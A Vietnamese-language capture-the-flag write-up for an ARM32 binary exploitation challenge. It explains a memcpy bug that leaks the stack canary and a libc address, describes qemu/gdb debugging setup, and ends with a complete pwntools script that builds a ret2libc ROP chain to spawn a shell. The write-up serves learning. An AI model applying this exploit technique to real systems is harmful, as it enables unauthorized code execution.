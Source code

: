 ```yaml
---
title: arm-writeup
date: 2025-02-11 00:00:00 +0800
categories: [pwn]
tags: [arm]
author: "kuvee"
layout: post
---
```


## Arms roped


- đây là 1 file arm32 bit 
```cs
ploi@PhuocLoiiiii:~/pwn/arm/Arms roped/pwn_arms_roped$ file arms_roped
arms_roped: ELF 32-bit LSB pie executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, BuildID[sha1]=f493269e618dc028ee6ff31eda42f938a63451bc, for GNU/Linux 3.2.0, not stripped
```

- string_storer: đây sẽ là hàm chính của bài , tiếp theo `_isoc99_scanf("%m[^\n]%n", &tmp, &n)` sẽ là đọc input vào `tmp` cho đến '\n' và lưu số byte đã nhập vào `n` , sau đó nó sẽ sao chép dữ liệu vào `dest` và ở đây nó sử dụng `memcpy` và hàm này sẽ không thêm byte NULL vào cuối -> có thể leak  

```c
int string_storer()
{
  int result; // r0
  char dest[32]; // [sp+4h] [bp-30h] BYREF

  memset(dest, 0, sizeof(dest));
  while ( 1 )
  {
    _isoc99_scanf("%m[^\n]%n", &tmp, &n);
    getchar();
    memcpy(dest, (const void *)tmp, n);
    free((void *)tmp);
    result = memcmp(dest, "quit", 4u);
    if ( !result )
      break;
    puts(dest);
  }
  return result;
}
```

- trước hết thì ta cần patch nó với libc , dùng `pwninit` bị lỗi nên ta sẽ build docker và lấy ld trong `/usr/arm-linux-gnueabihf/lib`

- để run được 1 file arm thì ta làm như sau: 

tab1 : `qemu-arm -L /usr/arm-linux-gnueabihf -g 1234 ./hello32-static`

tab2: 


```
gdb-multiarch
set architecture arm
target remote :1234
``` 

- còn debug trong gdb thì thêm thế này :

```cs
p = process(['qemu-arm','g','1234', '-L', '/usr/arm-linux-gnueabihf', './arms_roped_patched'])
```

### EXPLOIT

- okay mọi setup đã xong , bây giờ sẽ đến phần exploit , như đã nói ở phần trước , vì đang ở trong 1 loop nên ta có thể leak mọi thứ cho việc khai thác , trước hết ta sẽ debug xem ta cần padding bao nhiêu byte để có thể leak , ở bài này ta sẽ leak canary và libc thôi  , không cần luôn exe_address vì gadget của libc là quá nhiều để sử dụng ^^ 

- trước hết ta sẽ nhập 9 byte và xem `memcpy` thế nào 

ta có thể thấy `dest` sẽ là 0x407ff914   

![image](https://hackmd.io/_uploads/H1vq48-

- nhìn vào stack thì ta sẽ thấy 2 giá trị có thể leak

đầu tiên `0x121abc00` có lẽ là canary và `0x40846525` là địa chỉ libc_start_main , padding lần lượt sẽ là 0x21 và 0x48 , sở dĩ là 0x21 vì ta cần overwrite byte NULL mới có thể leak thành công  

![image](https://hackmd.io/_uploads/SJxR4Lb2Je.png)

- và bây giờ ta hoàn toàn có được `canary` 

![image](https://hackmd.io/_uploads/B14pIIWh1e.png)

![image](https://hackmd.io/_uploads/BJKkw8Znkx.png)

- sau khi leak xong thì đơn giản sẽ là 1 ret2libc , ở đây ta cần tìm kiếm gadget để cho chuỗi `/bin/sh` vào r0 , r0 sẽ chứa tham số đầu tiên khi gọi system , và ta cũng cần điều khiển `pc` thành system 

![image](https://hackmd.io/_uploads/HJKU1DbhJx.png)

exp: 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./arms_roped_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
context.arch = 'arm'
context.log_level = 'debug'
#file arms_roped_patched
#set architecture arm
#target remote :1234
#b*string_storer+172
#b*string_storer+240
#c
p = process(['qemu-arm', '-g' ,'1234' ,'./arms_roped_patched'])
#p = process(['qemu-arm','g','1234', '-L', '/usr/arm-linux-gnueabihf', './arms_roped_patched'])

payload_canary = b'a'*0x21
input()
p.sendline(payload_canary)

p.recvuntil(payload_canary)

canary = u32(b'\x00' + p.recv(3))
log.info(f'canary: {hex(canary)}')

payload_libc = b'a'*0x48
p.sendline(payload_libc)
p.recvuntil(payload_libc)

libc.address = u32(p.recv(4)) - 0x17525
log.info(f'libc: {hex(libc.address)}')

# 0x0006ed9a (0x0006ed9b): pop {r0, r1, pc};
# 0x0005bebc : pop {r0, r4, pc}
pop = libc.address + 0x0005bebc


payload_get_shell = b'quit'
payload_get_shell = payload_get_shell.ljust(32,b'l')
payload_get_shell += p32(canary)
payload_get_shell = payload_get_shell.ljust(0x30,b'o')

payload_get_shell += p32(pop)
payload_get_shell += p32(next(libc.search(b'/bin/sh\x00')))
payload_get_shell += p32(0)
payload_get_shell += p32(libc.sym.system)
input()
p.sendline(payload_get_shell)


p.interactive()
```


